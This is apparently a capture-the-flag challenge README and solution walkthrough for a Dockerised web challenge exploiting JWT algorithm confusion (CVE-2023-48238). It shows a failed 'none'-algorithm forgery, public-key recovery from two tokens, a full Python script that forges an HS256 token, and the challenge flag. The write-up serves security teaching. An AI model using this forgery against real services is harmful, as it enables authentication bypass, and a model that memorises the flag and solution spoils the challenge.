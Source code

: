# A Ticket to Space

#### Category: Web Exploitation

#### Difficulty: Medium

#### Type: Black Box

#### Vulnerability: [CVE-2023-48238](https://nvd.nist.gov/vuln/detail/CVE-2023-48238)

#### Description: I have always wanted to go to space. Now they offer a program that will allow me to fulfill my dream! But the queue is a little long, and I'm not sure if I'll still be here when my turn arrives...  I wonder if there is a way to bypass the queuing system.

![image](https://github.com/user-attachments/assets/8c2f4250-53d8-463c-be5c-3828a186b3ab)


## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Get Docker container IP address
`sudo docker inspect <container-id> | grep 'IP'`

#### [5] Access challenge website
Access to `http://docker-ip-address:3000`

## Solution
<details>

<br>

Since the web exploitation is a black box challenge, source code are not provided and it is required for the players to perform analysis themself and figure out the possible vulnerability. Accessing to the website, a webpage will be displayed like this and it should simulate like a ticket queuing system.

<br>

![image](https://github.com/user-attachments/assets/1fd26ac1-3aa4-4dcb-b933-962368016e73)

<br>

When the 'Buy Tickets' button is clicked, an alert message 'Not your turn yet! Please Wait!' will appear as the user is not authorized to access the ticket purchasing site yet.

<br>

![image](https://github.com/user-attachments/assets/f7519d5c-1ae0-45f6-8703-a56137ebbc71)

<br>

To further understand on how does the website checks the user's authorization, inspecting the frontend side should provide some valuable information.

### Frontend Source Code (Javascript)
```javascript
 window.onload = function() {
    if (!localStorage.getItem("jwt")) {
    fetch("/genToken", {
        method: "GET",
        headers: {
        "Content-Type": "application/json"
        }
    })
    .then(res => res.json())
    .then(data => {
        localStorage.setItem("jwt", data.token);
    })
    .catch(err => console.error("Error getting token:", err));
    }
    };
    
    function BuyTicket() {
    const token = localStorage.getItem("jwt");
    if (!token) {
        alert("No token found.");
        return;
    }
    fetch("/buyTicket", {
        method: "GET",
        headers: {
            "Authorization": `Bearer ${token}`
        }
    })
    .then(async (response) => {
        if (!response.ok) {
            const data = await response.json();
            alert(data.message || "Access denied");
            return;
        }
        const html = await response.text();
        document.open();
        document.write(html);
        document.close();
    })
    .catch(error => {
        console.error("Error:", error);
        alert("Something went wrong.");
    });
}
```
<br>

It seems that the website will fetch the `/genToken` to generate a unique Json Web Token (JWT) for each of the user and stored in the localStorage which will be retrieved later on to check the validity of the token in the `/buyTicket`. If the token validity returns invalid, it will deny the user access to the site. Now let's obtain the JWT from the localStorage for further analysis.

<br>

![image](https://github.com/user-attachments/assets/84c96782-0c5c-445b-95a5-6406a12eccb9)

<br>

When decoding the JWT using an online tool such as [jwt.io](https://jwt.io/). We can see that the JWT uses RS256 algortihm to secure their token. It also contain the payload `{"purchasePerm" : false}` which most likely is the mechanism used to check the validility of the token from the backend server. Therefore, changing the boolean of the payload to `{"purchasePerm" : true}` should work right? Unfortunately for RS256 algorithm, modifying the payload without a valid private key will not work because the server will use the public key to decode the token and checks the payload. Modifying the token without private key will cause the token to be not recognizable by the server and result in invalid token.

<br>

![image](https://github.com/user-attachments/assets/e3985a60-d8de-43e7-b2d1-b683c4c95a48)

<br>

Thus, the website may have two potential vulnerabilities which are [JWT Algorithm "None"](https://medium.com/@phosmet/forging-jwt-exploiting-the-none-algorithm-a37d670af54f) or [JWT Algorithm Confusion](https://portswigger.net/web-security/jwt/algorithm-confusion). Let's first explore the algorithm "None" exploit and determine whether it works. We can use jwt.io to switch the algorithm to `none` and forged a token containing a header like `{"alg" : "none" , "type" : "JWT"}` and also change the payload to `{"purchasePerm" : true}`. The forged token will look something like this `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJwdXJjaGFzZVBlcm0iOnRydWUsImV4cCI6MTc0NTE2ODg5OCwiaWF0IjoxNzQ1MTY1Mjk4fQ.`.

<br>

![image](https://github.com/user-attachments/assets/8a690b70-a261-44f6-860d-5eadd8209dff)

<br>

Then, we can replace the token in the localStorage with the forged token and attempt to access the `/buyTicket`. As a result, the algorithm "None" exploit does not work because the server will not accept token with "None" algorithm so it returns 'Token Authentication Failure'. Therefore, the JWT Algorithm "None" is not the solution ❎ and now we only have one possible vulnerability left which is JWT Algorithm Confusion.

<br>

![image](https://github.com/user-attachments/assets/efe7c9ab-7860-4031-bb1b-997b62e70bcc)

<br>

JWT Algorithm Confusion require us to retrieve the public key which will be used as the HMAC shared secret key after changing the algorithm to HS256 in the JWT header. Most of the time server will exposed their public keys in common path like `/jwks.json` , `/known-path/jwks.json`, & `/public.pem`. However, after several attempts on trying to retrieved the exposed public keys through known path has resulted in nothing. We can assume that the server was configured properly to ensure that the public key does not get exposed.

<br>

![image](https://github.com/user-attachments/assets/3d0a6bc1-faa1-493b-bbd4-203219c14021)

<br>

Fortunately, there is an interesting method that can be used to retrieved the public keys if they are not exposed. A great tool developed by nu11secur1ty called [rsa_sign2n](https://github.com/nu11secur1ty/rsa_sign2n/blob/main/README.md) can derived the public keys from existing tokens which we need to generated two tokens from the website for the tool to work.

First Token: `eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdXJjaGFzZVBlcm0iOmZhbHNlLCJleHAiOjE3NDUxNzc2MzgsImlhdCI6MTc0NTE3NDAzOH0.iTWhbTm90rdNtA10xmwiV0I7S-eD1veCkDgCqbBt5wer6ds1sHJDl5tNZQZcnwfBtYiaMhNG-DqTB7VfTbaYTWJRHNxr6n_UJmXB_XjWBtNkIpGwPHwkJBmebngg-VZuXOvo2NP8wv0TpdF3GRLQENonGFY37l5cYmATtKsNBUlTrvKwp0KLrLpIS8-uufXXkxha5SL6sDmj5z9Mmhwv-At7O0C4ZE8cijfhj48KXWcHk1fQFl1lYVPovqygh3tkJOW2avUO0HehDs6o5YX833aFhOox9kya7DbpPBcW9UEh62_EfFk2L1G1xgZg04vHcTzFYxrX62oaz804FyZHRQ`

After deleting the token and refresh the page will generate another new token.

Second Token: `eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdXJjaGFzZVBlcm0iOmZhbHNlLCJleHAiOjE3NDUxNzc2NTcsImlhdCI6MTc0NTE3NDA1N30.GMSDZvtmFlYGT8dcpk04rHWx6PDM-4DAuzzSXtuvRLfp9-IlVxuwe2MsjzjBGIFU9NLrBhxMkruqm2HcNrDHVkz-NUVDKWmLRED0_VJ9FGwIEARkkZqS-dHXA56x0QxGpUVWSq43_1u_qFi8ZczYAr_O9iXEDmTnBFl2Xu_zLZ0OYOlhKSEnCiGbWUlju2UH-nflysT_I7ENrUTFp_wixpPNYVxfZWLk16ixarISbOixvMdL5rYbYZmPEwos5Lz0-ix4gxmPcY1J2luLRhhQPdkaqKBwMzpSQjwex6N63gHt7kGk_kVfHr1B0L-CIYPazNBn9W5qQcUUVTbvVbzBlg`

Now we have two tokens ready and we can use the tool after successful installation. The command should be like this `python3 jwt_forgery.py token1 token2`. When the process is completed, it should display the result like the image below.

<br>

![image](https://github.com/user-attachments/assets/c35c26da-238a-402d-aa1a-3f6aa07e5d4f)

<br>

Now we need to get the public keys from the result. The public keys will usually stored in x509.pem format and we can use `cat` command to obtain the contents of the file. We need to copy the following public keys into a newly created file called `public.pem` which will be used for later on.

![image](https://github.com/user-attachments/assets/55931d70-3c22-4b42-b023-11062acd7241)

<br>

Getting the public key is a crucial step for the JWT Algorithm Confusion attack to work. Now we can forge our own token by creating a simple python script. Firstly we need to read the `public.pem` file to strip unwanted contents and covert to proper format before using it as the HMAC secret.

```python
with open(os.path.join(os.path.dirname(__file__), 'public.pem'), 'r') as f:
    public_key = f.read()

filter = (
    public_key
    .replace('-----BEGIN PUBLIC KEY-----', '')
    .replace('-----END PUBLIC KEY-----', '')
    .replace('\n', '')
    .strip()
)

hmac_secret = base64.b64decode(filter)
```

Then, we need to modify the algorithm to HS256 like `{"typ" : "JWT", "alg" : "HS256"}` and changing the payload data to `{"purchasePerm" : True}`. Now, we can forge the token containing HS256 algorithm along with public key as the HMAC secret.

```python
payload = {"purchasePerm": True}
headers = {"typ": "JWT","alg": "HS256"}

forged_token = jwt.encode(payload, hmac_secret, algorithm='HS256', headers=headers)

if isinstance(forged_token, bytes):
    forged_token = forged_token.decode()

print("Forged Token:", forged_token)
```

Finally, we can send the token to the website using `Authorization: Bearer` to `/buyTicket` endpoint.

```python
response = requests.get("http://localhost:3000/buyTicket",headers={"Authorization": f"Bearer {forged_token}"})

for line in response.iter_lines(decode_unicode=True):
    if 'ICTF25{' in line:
        print(f'Flag:{line}')
```

#### Full Solve Script (Python)

```python
import jwt
import requests
import base64
import os

with open(os.path.join(os.path.dirname(__file__), 'public.pem'), 'r') as f:
    public_key = f.read()

filter = (
    public_key
    .replace('-----BEGIN PUBLIC KEY-----', '')
    .replace('-----END PUBLIC KEY-----', '')
    .replace('\n', '')
    .strip()
)

hmac_secret = base64.b64decode(filter)

payload = {"purchasePerm": True}
headers = {"typ": "JWT","alg": "HS256"}

forged_token = jwt.encode(payload, hmac_secret, algorithm='HS256', headers=headers)

if isinstance(forged_token, bytes):
    forged_token = forged_token.decode()

print("Forged Token:", forged_token)

response = requests.get("http://localhost:3000/buyTicket",headers={"Authorization": f"Bearer {forged_token}"})

for line in response.iter_lines(decode_unicode=True):
    if 'ICTF25{' in line:
        print(f'Flag:{line}')
```

Example of the forged token (HS256): `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdXJjaGFzZVBlcm0iOnRydWV9.1YZ0CGvtXB1ukrQiIFLr03bs3mgKuxquiebt3Bk5Axo`

After executing the script we are able to obtain the flag which indicates that the JWT Algorithm Confusion attack has been successfully demonstrated. 

<br>

![image](https://github.com/user-attachments/assets/2903c906-3926-428e-84f7-0a481c735758)

<br>

![image](https://github.com/user-attachments/assets/e138a6eb-5794-4cdc-8500-7bf19dd4a7db)

<br>

### Flag
>ICTF25{3678087349b1b6d839e019a16d5483621af5b09c7d36fc6df346edd4425e7802}
</details>
